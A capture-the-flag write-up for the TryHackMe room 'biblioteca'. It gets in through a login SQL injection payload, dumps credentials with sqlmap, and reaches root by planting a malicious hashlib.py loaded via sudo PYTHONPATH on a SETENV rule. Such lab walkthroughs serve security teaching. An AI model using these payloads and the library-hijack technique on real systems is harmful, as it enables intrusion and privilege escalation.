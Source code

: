 ```yaml
---
title: biblioteca TryHackMe -- Writeup
date: 2022-05-21
categories: [TryHackMe, Medium]
tags: [sqli, mis-config, lib-hijacking]
---
```



# enumeration

```bash
nmap 10.10.193.163 -sCV -T4                                                                                130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-05-21 00:20 EDT
Nmap scan report for 10.10.193.163
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 00:0b:f9:bf:1d:49:a6:c3:fa:9c:5e:08:d1:6d:82:02 (RSA)
|   256 a1:0c:8e:5d:f0:7f:a5:32:b2:eb:2f:7a:bf:ed:bf:3d (ECDSA)
|_  256 9e:ef:c9:0a:fc:e9:9e:ed:e3:2d:b1:30:b6:5f:d4:0b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne

```
We got http server at 8000, seemingly a Flask app, and ssh (22) Lets check 8000 out.

## Gobuster

```bash
gobuster dir -u http://10.10.125.127:8000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.127:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/21 10:39:29 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 856]
/register             (Status: 200) [Size: 964]
/logout               (Status: 302) [Size: 218] [--> http://10.10.125.127:8000/login]
```
Apparently the username and password fields are vulnerable to sql-injection. At first i try the following payload `'or 1=1--'` and logged in as smokey (Nice)
Now i try using sqlmap to dump the database and see what is exactly in there.

## Initial Foothold

```bash
`sqlmap -u http://$ip:8000/login --data 'username=''&password=''' -D website --dump --level=1`

Database: website
Table: users
[1 entry]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
+----+-------------------+----------------+----------+

```
Luckily we go smokey password then use it to login ssh.

# User.txt

So now we smokey. But holup, this user cant read user.txt, urgh c'mon.. whatever
lets find our way to hazel

```bash
# as smokey
sudo -l
# literally nothing
```
Running linpeas shows nothing. LIKE WHAT AM I MISSING?.. Wait i remember there's a hint
for this flag. 'Weak password', Oh really?
I got stuck here for like 20mins trying literally every single thing i could possibly
think of.. Then i decided to ask for help.
Someone send me this link `https://www.youtube.com/watch?v=sQgd6MccwZc` as hint. and guess
what? it works lmao,.

## creds

`hazel:hazel` Yeah am stupid right?

## Flag
`THM{G0Od_*****************_p@sSw0rd$}`


# Root.txt

```bash
# as hazel
sudo -l

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py

```
SETENV basically allow us to set environmental variables. So what can we do with this exactly?
We have to look at the hasher.py file to understand where we can hijack the lib/module

```python
import hashlib # we gonna make this import our malicous file :D

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())
.
.
.
.
.
.
............
```
As you can see, we import hashlib at the start of the programming, So what we can do is
basically create our own malicious hashlib and set the path to point it, then we can execute
any python command as root, clever right?


```python
import os

os.system("whoami && ls /root") # to visualize the root folder structure

os.system("cat /root/root.txt") # output the flag

```

Save the above script at hashlib.py [I use /dev/shm] For some reasons i cant write to my
own home directory.. smh


## exploit

```python
sudo PYTHONPATH=/dev/shm /usr/bin/python3 /home/hazel/hasher.py
```
And voila, we root it.

## Flag
`THM{PytH0n_...........InG}`
<br>
<br>
<br>
Thanks for reading, I hope this helps.
